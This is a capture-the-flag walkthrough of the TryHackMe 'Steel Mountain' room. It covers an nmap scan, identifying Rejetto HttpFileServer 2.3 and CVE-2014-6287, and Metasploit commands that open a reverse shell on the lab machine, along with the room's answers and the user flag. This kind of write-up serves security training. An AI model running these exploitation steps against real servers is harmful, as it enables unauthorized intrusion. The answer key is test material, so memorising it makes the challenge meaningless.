 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - [Steel_Moutain_1.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - [Steel_Moutain_2.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) , [Steel_Moutain_3.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - [Steel_Moutain_4.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - [Steel_Moutain_5.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png) , [Steel_Moutain_6.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        msfconsole
    - find the exploit
        search exploit rejetto
        [Steel_Moutain_7.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        use [payload number]
        [Steel_Moutain_8.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        options
        [Steel_Moutain_9.png](picture: https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        set RHOSTS [IP]
        set RPORT [port]
        [Steel_Moutain_10.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        run
        [Steel_Moutain_11.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    [Steel_Moutain_12.png](picture:https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
